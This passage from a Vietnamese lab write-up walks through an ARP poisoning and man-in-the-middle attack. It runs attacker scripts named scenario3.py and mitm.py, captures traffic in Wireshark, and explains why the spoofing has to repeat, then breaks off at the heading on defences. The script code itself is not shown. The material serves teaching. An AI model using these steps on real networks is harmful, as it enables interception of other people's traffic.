

- Thực hiện tấn công ARP Posioning tại Attacker
```bash
root@81ecd9dd554d:/tmp# python3 scenario3.py
```
- Mở terminal khác cho attacker, thực hiện tấn công mitm
```bash
root@81ecd9dd554d:/tmp# python3 mitm.py
```

Đại khái thì ta có setup như sau:



- Mở WireShark và chọn card mạng như trên để bắt gói tin.



*Note: Nhớ lưu gói tin để tránh lỡ tay xóa mất.*

- Kết quả:




> 1. Tại sao phải thực hiện tấn công ARP liên tục?
>
> Để trong quá trình hoạt động thì User và Server có thể gửi các gói tin ARP mang các thông tin thật, thì bảng ARP Table sẽ được cập nhật ánh xạ thật. Dẫn đến tấn công không liền mạch.

---

## IV. Phòng chống tấn công
